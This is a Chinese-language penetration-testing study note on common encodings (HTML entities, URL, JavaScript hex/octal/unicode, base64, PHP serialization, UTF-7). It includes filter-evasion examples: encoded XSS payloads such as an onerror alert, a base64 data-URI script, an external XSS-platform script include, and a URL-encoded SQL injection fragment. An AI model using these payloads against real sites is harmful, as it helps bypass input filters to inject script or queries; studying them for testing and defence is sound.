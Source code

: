 # :hand_over_mouth:常见编码

## 页面编码

​	在网页设置网页编码 在<head></head>中加入设置特定html标签<meta charset="utf-8" /> 这样页面的编码就会变成utf-8 ，如果没有设置编码就会使用默认的编码，而浏览器默认编码与之不同就会出现乱码。常用的有三种格式分别是 utf-8、gbk、gbk2312

## ascii编码

百度百科 详细介绍[https://baike.baidu.com/item/ASCII/309296?fr=aladdin&fromid=3712529&fromtitle=ASCII%E7%BC%96%E7%A0%81](https://baike.baidu.com/item/ASCII/309296?fr=aladdin&fromid=3712529&fromtitle=ASCII编码)

在渗透测试中常用的标准表 十进制 是 0-127 共128个字符

![image-20221231165800141](https://s1.ax1x.com/2023/03/08/ppegBE8.png)

## HTML编码

实体 ：http://www.w3school.com.cn/html/html_entities.asp

HTML编码的存在就是让他在代码中和显示中分开， 避免错误。

​	命名实体：构造是&加上希腊字母，

​	字符编码：构造是&#加十进制

![image-20221231170129445](https://s1.ax1x.com/2023/03/08/ppegdDP.png)

十六进制 ASCII码或unicode字符编码，

而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

http://www.qqxiuzi.cn/bianma/zifushiti.php

十六进制

```
<img src=&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x77;&#x77;&#x2e;&#x62;&#x61;&#x69;&#x64;&#x75;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x69;&#x6d;&#x67;&#x2f;&#x62;&#x64;&#x5f;&#x6c;&#x6f;&#x67;&#x6f;&#x31;&#x2e;&#x70;&#x6e;&#x67;>
```

十进制

```
<img src=&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#119;&#119;&#46;&#98;&#97;&#105;&#100;&#117;&#46;&#99;&#111;&#109;&#47;&#105;&#109;&#103;&#47;&#98;&#100;&#95;&#108;&#111;&#103;&#111;&#49;&#46;&#112;&#110;&#103;>
```

xss攻击

```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;" />
```

## URL编码

​		URL编码是一种多功能技术，可以通过它来战胜多种类型的输入过滤器。URL编码的最基本表示方式是使用问题字符的十六进制ASCII编码来替换它们，并在ASCII编码前加%。例如，单引号字符的ASCII码为0x27，其URL编码的表示方式为%27。

[http://www.baidu.com/index.php?keyword=aa%20union%20seelct](http://www.baidu.com/index.php?keyword=aa union seelct)

## js编码

```js
<script>alert("Hello world!");</script> 
```

javascript的十六进制编码

```
\x3C\x73\x63\x72\x69\x70\x74\x3E\x61\x6C\x65\x72\x74\x28\x22\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x21\x22\x29\x3B\x3C\x2F\x73\x63\x72\x69\x70\x74\x3E
```

javascript的八进制编码

```
\74\163\143\162\151\160\164\76\141\154\145\162\164\50\42\110\145\154\154\157\40\167\157\162\154\144\41\42\51\73\74\57\163\143\162\151\160\164\76
```

http://www.jb51.net/tools/zhuanhuan.htm

javascript unicode编码

```html
<img src="1.jpg" />
<script src=http://xsst.sinaapp.com/m.js></script>
<embed src=http://1.com/1.swf  allowscriptaccess=always></embed>
```

```
\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0048\u0065\u006c\u006c\u006f\u0020\u0077\u006f\u0072\u006c\u0064\u0021\u0022\u0029\u003b\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0020
```

http://www.msxindl.com/tools/unicode16.asp

https://www.toolmao.com/xsstranser

## hex编码

​		这种编码常用于数据库中 转码过后要加上0x，例如 a的hex码是61 如果在数据库使用要加上0x61

## base64编码

​		BASE64 编码是一种常用的字符编码，在很多地方都会用到。但base64不是安全领域下的加密解密算法。能起到安全作用的效果很差，而且很容易破解，他核心作用应该是传输数据的正确性，有些网关或系统只能使用ASCII字符。Base64就是用来将非ASCII字符的数据转换成ASCII字符的一种方法，而且base64特别适合在http，mime协议下快速传输数据。

```
<a href="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">XSS</a>
```

## json编码

​		JSON(JavaScript Object Notation) 是一种轻量级的数据交换格式，易于阅读和编写，同时也易于机器解析和生成。它基于ECMA262语言规范（1999-12第三版）中JavaScript编程语言的一个子集。 JSON采用与编程语言无关的文本格式，但是也使用了类C语言（包括C， C++， C#， Java， JavaScript， Perl， Python等）的习惯，这些特性使JSON成为理想的数据交换格式。

```json
[

  {

    "Name": "a1",

     "Number": "123",

    "Contno": "000",

    "QQNo": ""

  },

  {

    "Name": "a1",

    "Number": "123",

    "Contno": "000",

    "QQNo": ""

  },

  {

    "Name": "a1",

    "Number": "123",

    "Contno": "000",

    "QQNo": ""

  }

]
```

```php
<?php
$data='[{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""}]'; 
$json=json_decode($data); 
print_r($json);
?>
```

## 序列化

​		序列化 (Serialization)是将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。

> 百度百科详细：[https://baike.baidu.com/item/%E5%BA%8F%E5%88%97%E5%8C%96/2890184?fr=aladdin](https://baike.baidu.com/item/序列化/2890184?fr=aladdin)

```
a:3:{i:0;s:3:"Moe";i:1;s:5:"Larry";i:2;s:5:"Curly";}
```

```php
<?php 
$stooges = array('Moe','Larry','Curly');
$new = serialize($stooges);
print_r($new);
echo "<br />";
print_r(unserialize($new));
?>
```

## utf7编码

​		UTF-7 (7-位元 Unicode 转换格式（Unicode Transformation Format，简写成 UTF））是一种可变长度字符编码方式， 用以将 Unicode 字符以 ASCII 编码的字符串来呈现，可以应用在电子邮件传输之类的应用。

moonsec +AG0AbwBv-n+AHM-e+AGM-

https://web2hack.org/xssee/